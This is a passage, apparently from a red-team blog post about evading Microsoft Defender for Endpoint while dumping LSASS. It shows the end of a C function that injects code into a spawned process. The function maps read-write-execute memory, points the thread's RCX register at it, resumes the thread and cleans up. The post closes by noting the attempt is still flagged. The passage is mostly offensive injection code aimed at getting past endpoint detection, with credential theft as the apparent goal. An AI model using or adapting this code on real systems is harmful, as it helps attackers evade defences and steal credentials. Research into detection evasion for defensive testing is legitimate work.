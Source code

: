 ```
		NULL,
		PAGE_EXECUTE_READWRITE);

	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;

	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register in the context
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the main thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread (you can use NtResumeThread if needed)
	ntResumeThread(ntThread, NULL);
	
	// unmap memory from local process
	status = ntUnmapViewOfSection(
	GetCurrentProcess(),
	hLocalAddress);

	// Clean up injected process
	if(hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
 	RtlDestroyProcessParameters(ProcessParameters);

	// Close Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

Executing against MDE we are still flagged:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915190703.png)
